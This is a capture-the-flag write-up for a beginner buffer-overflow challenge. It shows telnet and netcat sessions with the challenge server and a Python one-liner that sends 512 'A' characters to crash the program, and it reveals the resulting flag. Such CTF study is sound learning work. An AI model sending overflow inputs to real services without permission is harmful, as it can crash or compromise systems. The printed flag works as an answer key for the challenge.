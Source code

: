 # STOP GAN (bof)
## Description
Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

## Solution
The challenge contains
1. A server `buffer-overflow.ctfcompetition.com 1337`
2. An attachment `4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a`

We can start with the server. A domain + port could mean anything, ssh, telnet. Let's try telnet first since we don't have a user for ssh.
```bash session
$ telnet buffer-overflow.ctfcompetition.com 1337
Trying 34.77.235.48...
Connected to buffer-overflow.ctfcompetition.com.
Escape character is '^]'.
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>run
Inputs: run
Unable to determine action from your input
Connection closed by foreign host.
# the remote may be expecting '\n' instead of '\r\n' as sent by telnet
# https://unix.stackexchange.com/questions/331109/any-way-to-send-just-n-in-telnet
# inspecting console.c from the attachment confirms this

# try netcat instead
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>run
Inputs: run
test
Cauliflower systems never crash >>

Console commands: 
run
quit
>>^C

# pass in large input
$ python -c 'print "run\n" + "A"*512' | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands: 
run
quit
```

### Flag
`CTF{Why_does_cauliflower_threaten_us}`

This leads to the `easiest` ending

## Bonus
TODO: Control crash